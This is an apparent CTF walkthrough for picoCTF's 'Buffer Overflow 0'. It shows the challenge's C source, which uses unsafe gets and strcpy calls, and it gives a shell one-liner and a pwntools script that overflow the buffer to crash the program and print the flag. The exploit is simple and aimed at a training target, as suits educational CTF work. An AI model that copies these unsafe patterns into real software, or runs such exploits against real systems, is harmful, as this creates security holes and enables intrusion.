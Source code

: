 
# Exploiting Buffer Overflow 0 Step-by-Step | picoCTF Walkthrough


## Challenge Overview

**Challenge Name**: Buffer Overflow 0
**Category**: Binary Exploitation
**What We Get:**
A compiled binary (`vuln`)
The source code (`vuln.c`)


![Image description](https://github.com/shalintha/CTF-writeups/blob/master/assets/buffer-overflow-0.png?raw=true)

## Understanding the Challenge
The challenge gives us a binary file (`vuln`) and its source code (`vuln.c`). The goal is to exploit a buffer overflow vulnerability to change a variable's value and make the program reveal the flag. Sounds fun, right? Let's get started!

## Understanding the Code
First, let's take a look at the source code to see what we're dealing with:

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

## What’s Happening Here?

**1. Buffer Overflow Vulnerability:**
The vuln function has a buffer (`buf2`) that’s only 16 bytes long. The program uses `strcpy` to copy user input into this buffer, but it doesn’t check the length of the input. This means if we give it more than 16 bytes, we can overwrite other parts of memory!

**2. Signal Handler:**
If a segmentation fault occurs (e.g., due to a buffer overflow), the `sigsegv_handler` function is triggered, which prints the flag.

**3. User Input:**
The main function reads user input using `gets`, which is notoriously unsafe because it doesn’t limit the amount of input. This input is then passed to the `vuln` function.

**4. Key Takeaways:**
The program reads the flag from `flag.txt` and stores it in a global variable flag.
The `gets(buf1)`; function is used, which is dangerous because it doesn’t check input length.
The function `vuln()` uses `strcpy(buf2, input);`, which can lead to buffer overflow since `buf2` is only 16 bytes long.
If we trigger a segmentation fault `(SIGSEGV)`, the handler will print the flag!

## Exploitation Plan
To solve this challenge, we need to:

1. **Overflow the Buffer:** Send more than 16 bytes of input to cause a buffer overflow.

2. **Trigger a Segmentation Fault:** The overflow will cause the program to crash, triggering the `sigsegv_handler` and printing the flag.

We can use the given binary and provide an oversized input to trigger a segmentation fault and leak the flag:

```python
python3 -c 'print("A" * 32)' | ./vuln
```

Or we can use the given remote server as below as well.

## Step 1: Creating the Payload
We need to send an input that:

- Fills the 16-byte buffer in the `vuln` function.

- Overflows the buffer to cause a segmentation fault.

In Python, we can create this payload like this:

```python
payload = b"A" * 32  # More than enough to overflow the buffer
```

## Here’s what’s happening:

`b"A" * 32:` Sends 32 bytes of the letter `A`. This is way more than the 16 bytes the buffer can hold, so it will overflow and cause a crash.

## Step 2: Send the Payload
We’ll use a Python script to send our payload to the remote server. Here’s the script:

```python
from pwn import *

# Connect to the challenge server
conn = remote('saturn.picoctf.net', 51086)

# Creating the payload
payload = b"A" * 32

# Send the payload
conn.sendline(payload)

# Receive the flag
print(conn.recvall().decode())

```

## What’s This Script Doing?

1. Connecting to the Server:
The `remote` function connects to the challenge `server at saturn.picoctf.net` on port `51086`.

2. Sending the Payload:
The `sendline` function sends our crafted payload to the server.

3. Receiving the Flag:
The `recvall` function grabs the server’s response, which should include the flag.

## Step 3: Run the Script

Save the script as `exploit.py` and run it:

```python
python3 exploit.py
```

If everything works correctly, you’ll see the flag printed on your screen! 🎉

## What Happened?
When we send more than 16 bytes of input, the extra data overflows the `buf2` buffer and corrupts the program’s memory. This causes a segmentation fault, which triggers the `sigsegv_handler` function. The handler then prints the flag for us.

## Final Thoughts
This challenge is a great way to learn about buffer overflows and how they can be exploited to manipulate a program’s behavior. By causing a crash, we can trigger a signal handler that reveals the flag. Once you understand the basics, you can tackle more advanced challenges!

Flag: `picoCTF{...}` (You’ll see the actual flag when you run the exploit!)

Happy hacking! 😄 If you have any questions or run into issues, feel free to ask. Good luck with the rest of picoCTF! 🚀






